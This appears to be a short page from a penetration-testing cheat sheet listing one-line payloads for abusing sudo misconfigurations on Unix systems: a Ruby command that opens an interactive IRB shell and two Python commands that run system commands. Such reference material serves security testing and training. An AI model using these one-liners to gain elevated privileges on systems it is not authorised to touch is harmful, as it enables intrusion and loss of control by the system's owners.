 ```yaml
---
description: >-
  This page contains payloads that can be used to abuse sudo misconfigurations
  on a Unix-based system.
---
```


# Misconfigurations

Ruby

```
/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
```

Python

```
/usr/bin/python -c 'import os;os.system("whoami")'
```

```
/usr/bin/python -c 'from subprocess import call;call("[whoami]")'
```
